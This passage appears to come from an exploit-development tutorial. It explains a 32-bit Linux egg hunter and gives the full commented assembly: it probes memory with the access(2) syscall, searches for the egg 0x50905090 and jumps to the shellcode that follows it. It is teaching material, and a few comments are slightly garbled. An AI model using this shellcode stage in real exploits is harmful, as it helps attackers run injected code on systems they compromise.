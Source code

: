 Fortunately for the egg hunter, this is the exact type of information it needs in order to safely traverse the process’ VAS without dereferencing the invalid memory regions that are strewn about the process.

To achieve this, we'll use the access(2) syscall.

```
global _start

section .text

_start:
	; We will EDX to track the memory we're searching
	xor edx,edx	; clear it in preparation

init_page:
	; Initializing EDX register to PAGE_SIZE(0x1000) which is 4096 bytes
	or dx,0xfff

inc_page:
	
	; inc on every loop to access() all possible VAS memory
	inc edx

sys_access:	
	; load the latest 8 bytes of EDX into EBX so we can find our 8 byte egg in the target process' VAS
	lea ebx,[edx+0x4]
	push byte +0x21	; push access() syscall onto stack
	pop eax		; set EAX to access(). push pop saves 1 byte over: xor eax,eax; mov al,0x21.
	
	; [*] Calling access(ebx[edx+0x4])
	int 0x80

	; [+] Check for error code 
	; EFAULT returns error code if access() address was invalid. 
	; EFAULTs error code low byte is 0xf2
	cmp al,0xf2	; checks return of syscall against return value, if error code: set ZF=1 

access_failure:	
	; [+] On access() failure
	jz init_page	; EFAULT error code (ZF=1) so loop up, inc edx and try again.

access_success:
	; [+] On access() success
	; [!] Our egg is 0x50905090. In this code its moved into EAX in reverse so it appears as 0x905090. 
	; [!] When hunting for the egg make sure to hunt for: 0x50905090.
	mov eax,0x90509050	; move our egg ((push eax,nop)*4) into EAX to search it
	mov edi,edx		; move value EDX into EDI (valid access() address)
	scasd			; scasd will compare EAX and EDI. If equal then ZF=1, else not equal ZF=0. scasd matching first 4 bytes
				; scasd auto increments EDI by dword (4 bytes) if DF=0. Because we have not set it DF, after execution EDI is now edi+0x4
	jnz inc_page		; If ZF=0 loop up, else if ZF=1 continue down

	scasd			; scasd auto increments so now its comparing edi+0x4. scasd matching second 4 to confirm
	jnz inc_page		; if no egg match then loop up and try again

egghunted:	
	; [+] On match
	; if scasd returns a match (ZF=1) then jump to our shellcode in EDI (that was auto incremented each time with scasd match)
	jmp edi			;
```